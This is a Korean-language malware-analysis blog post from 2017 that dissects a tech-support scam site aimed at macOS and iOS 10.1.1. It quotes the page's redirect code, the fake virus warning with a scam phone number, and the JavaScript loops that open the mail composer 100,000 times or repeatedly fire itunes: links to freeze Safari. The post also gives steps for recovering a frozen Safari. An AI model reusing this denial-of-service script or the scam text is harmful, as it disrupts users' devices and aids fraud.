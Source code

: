 ```yaml
---
layout: post title: Scam Page triggers DoS attack on some apple product(?) date: 2017-01-08 14:47:36.000000000 +09:00 type: post published: true status: publish categories: - Malware Analysis tags: []
author: login: n0fate email: rapfer@gmail.com display_name: n0fate first_name: '' last_name: ''
---
```


*딱히 쓸만한 제목이 없어서 제목은 원 글 내용을 따옴*

@qingfro9이 보내준 말웨어 바이트 링크(감사!)인 [Tech support scam page triggers denial-of-service attack on Macs](https://blog.malwarebytes.com/101/mac-the-basics/2017/01/tech-support-scam-page-attempts-denial-of-service-via-mail-app/) 를 보고 확인 중에 아직 살아 있는 사이트(hxxp://safari-get.net)이 있길래 curl로 급하게 긁어와서 정리함.
일단 이 녀석은 `UserAgent`가 `OS 10.1.1` 버전인 운영체제를 대상으로 하는 DoS 취약점임. 링크에서는 맥이라고 써있는데 iOS 10.1.1도 대상인 것 같음. 최신 버전으로 업데이트하면 문제는 해결.

## 스테이지 1
일단 사이트에 접속하면 `index.html` 페이지가 당신을 반김. 이 페이지는 특별한건 없고 접속한 클라이언트 정보를 수집해 통계 정보를제공하는 구글 애널리틱스(google analytics) 코드가 있고, 아래는 웹 브라우저의 사용자 에이전트 정보를 찾아 운영체제 버전을 식별, 리다이렉션 함.

```javascript
	  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
	  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
	  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
	  })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

	  ga('create', 'UA-73784359-12', 'auto');
	  ga('send', 'pageview');

	if ((navigator.userAgent.match(/OS 10.1.1/i))) {
	   location.replace("hxxp://safari-get.com/11.php");
	} else
	{
	location.replace("hxxp://safari-get.com/10.html");}

```

링크 누르면 납치당하니 좀 수정함.코드를 보면, `OS 10.1.1`, 인 경우, 즉, 아이폰 버전이 10.1.1인 경우 `11.php`로 리다이렉션하고 그 외는 `10.html` 로 리다이렉션함.

## 스테이지 2

### OS 10.1.1이 아닌 경우
일단 `10.html`은 다음과 같음.

```html

	Warning Safari Crashed!!
	 Your Apple Device May Have Adware/Spyware Virus.

	 Call<font size="35px">+1-844-423-2465</font>
immediately to connect with Apple Technical Support for installing the Protection Software. chat logs.

DATA AT RISK:

Your credit card details and banking information.Your e-mail passwords and other account passwords.Your Facebook, Skype, AIM, ICQ and other
<font size="20px">

Your private photos, family photos and other sensitive files.Your webcam could be accessed remotely by stalkers with a VPN virus.
</font>

```

사파리에 출력하는 메시지. 영어 잘 못하는 내가 봐도 문법이 이상함. 여튼 해킹 당했음이라는 메시지인데 이걸 나중에 메일 제목에도 넣음. 아래는 애플 메일 앱을 띄우는 스크립트 코드임.

```html
	jQuery('#result').append('');
```

RFC2638와 [애플 가이드라인](https://developer.apple.com/library/content/featuredarticles/iPhoneURLScheme_Reference/MailLinks/MailLinks.html)을 준수한 코드임. 내용은 다음과 같음.

* 수신자 : `foo@example.com`
* 메일 내용 : Apple Tech Support !
* 참조 : `bar@example.com`
* 제목 : Warning! Virus Detected! Immediately Call ~~~~

그냥 이것만 띄우는 것이면 DoS가 아니지. 이걸 10만번 띄우는 스크립트 코드는 아래에 있음.

```html
	 document.querySelector('a').click(0);

	 for(var i=0;i<100000;i++){
	 	 if(i>0) {

		 document.querySelector('a').click();
		 for(var x=0;x<10000;x++){
		 console.log();
		 }

	} else {
	    document.querySelector('a').click();
	    for(var x=0;x<100000;x++){
		 console.log();
	}
```

메일 보내는 창을 10만번 출력함. 악성코드 걸려서 정보 다털리는건 아니지만 걸리면 짜증날 듯. 시에라 가장 최근버전인 10.12.2에서 확인해보니 경고창을 보여주는 것으로 처리함. (위 링크에 스크린샷 있음). 아이폰에서는 무한로딩.

### OS 10.1.1 인 경우(ex. iOS 10.1.1)
10.1.1 버전인 경우 아이튠즈를 이용함. 핵심 내용은 다음과 같음.

<div class="highlighter-rouge">

```

	jQuery('#result').append('.');
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	[..SNIP..]

```

</div>

핵심은 저 `itunes:문자열(단순한 hello임)`인데 맥에서 테스트해보면 아이튠즈를 한번만 띄움. 아이튠즈 앱 자체가 여러개 뜨는 구조가 아니기 때문인 듯.
아이폰의 경우에는 에러 메시지를 계속 발생시켜서 사파리를 사용불능 상태로 만듬. 문제를 해결하려면 단순히 사파리앱을 껐다가 키는 걸론 안되고, 설정->사파리-> `방문 기록 및 웹 사이트 데이터 지우기`를 선택해서 사파리 내역을 완전 삭제해야 함.

### 추가
`10.html` 코드를 curl로 긁다보니 다음과 같은 코드도 긁혔음.

```bash
	Editing:  
	/home/safarmcl/public_html/port-safari.net/ios.html
	 Encoding:    Re-open Use Code Editor     Close  Save Changes
```

`safari-get.net` 사이트 자체가 실제 운영보다는 테스트용 서버인지 에디팅 경고 메시지가 나타난 그대로 html 파일을 저장하였음. 실제 코드는 아이폰에서 정상작동되지 않음.

## 결론
맥, 아이폰이라고 신난다고 불법 사이트 돌아다니면 뒷통수 맞을 수 있으니 조심히 쓰자.
